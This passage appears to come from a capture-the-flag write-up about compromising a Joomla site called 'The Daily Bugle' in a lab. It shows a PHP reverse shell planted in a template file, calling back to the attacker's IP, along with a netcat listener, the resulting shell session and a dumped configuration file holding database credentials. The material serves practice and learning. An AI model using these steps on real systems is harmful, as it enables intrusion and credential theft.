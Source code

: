 ### Exploit Execution
Navigated to **Extensions > Templates > Templates > Protostar Details and Files**. Edited `index.php` in the sidebar, replacing its content with a PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Modified the IP and port:
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.109.66';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Saved the file and started a Netcat listener:
```bash
nc -nlvp 9999
```

Accessed the website to trigger the reverse shell:
```plaintext
listening on [any] 9999 ...
connect to [10.14.109.66] from (UNKNOWN) [10.10.172.83] 33668
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:37:17 up  1:10,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

Enumerated directories and found `/var/www/html/configuration.php`, which contained database credentials:
```bash
sh-4.2$ cat /var/www/html/configuration.php
```

**Output**:
```php
<?php
class JConfig {
    public $offline = '0';
    public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
    public $display_offline_message = '1';
    public $offline_image = '';
    public $sitename = 'The Daily Bugle';
    public $editor = 'tinymce';
    public $captcha = '0';
    public $list_limit = '20';
    public $access = '1';
    public $debug = '0';
    public $debug_lang = '0';
    public $dbtype = 'mysqli';
    public $host = 'localhost';
    public $user = 'root';
    public $password = 'nv5uz9r3ZEDzVjNu';
    public $db = 'joomla';
    public $dbprefix = 'fb9j5_';
    public $live_site = '';
    public $secret = 'UAMBRWzHO3oFPmVC';
    public $gzip = '0';
```